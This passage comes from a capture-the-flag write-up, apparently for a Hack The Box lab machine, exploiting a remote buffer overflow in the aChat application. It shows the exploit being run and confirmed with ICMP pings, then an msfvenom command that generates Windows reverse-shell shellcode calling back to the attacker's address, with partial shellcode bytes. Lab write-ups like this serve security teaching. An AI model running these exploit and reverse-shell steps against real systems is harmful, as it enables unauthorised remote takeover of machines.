 - Change the `server_address` to `('10.10.10.74', 9256)`:

```python
server_address = ('10.10.10.74', 9256)
```

- Capture ICMP requests via `tcpdump`:

```shell
┌[siunam♥earth]-(~/ctf/htb/Machines/Chatterbox)-[2023.05.17|21:17:29(HKT)]
└> sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```

- Run the exploit script:

```shell
┌[siunam♥earth]-(~/ctf/htb/Machines/Chatterbox)-[2023.05.17|21:17:23(HKT)]
└> python2 36025.py
---->{P00F}!
```

```shell
[...]
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
21:19:34.221676 IP 10.10.10.74 > 10.10.14.26: ICMP echo request, id 1, seq 5, length 40
21:19:34.221704 IP 10.10.14.26 > 10.10.10.74: ICMP echo reply, id 1, seq 5, length 40
21:19:35.165345 IP 10.10.10.74 > 10.10.14.26: ICMP echo request, id 1, seq 6, length 40
21:19:35.165387 IP 10.10.14.26 > 10.10.10.74: ICMP echo reply, id 1, seq 6, length 40
21:19:36.162867 IP 10.10.10.74 > 10.10.14.26: ICMP echo request, id 1, seq 7, length 40
21:19:36.162885 IP 10.10.14.26 > 10.10.10.74: ICMP echo reply, id 1, seq 7, length 40
21:19:37.160799 IP 10.10.10.74 > 10.10.14.26: ICMP echo request, id 1, seq 8, length 40
21:19:37.160813 IP 10.10.14.26 > 10.10.10.74: ICMP echo reply, id 1, seq 8, length 40
```

It works! We successfully recieved 4 ICMP requests!

**With that said, the target's aChat application is vulnerable to Remote Buffer Overflow.**

Let's get a reverse shell!

- **Shellcode:**
```shell
┌[siunam♥earth]-(~/ctf/htb/Machines/Chatterbox)-[2023.05.17|21:29:21(HKT)]
└> msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.26 LPORT=443 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
[...]
buf =  b""
buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41"
[...]
buf += b"\x79\x6f\x37\x65\x41\x41"
```
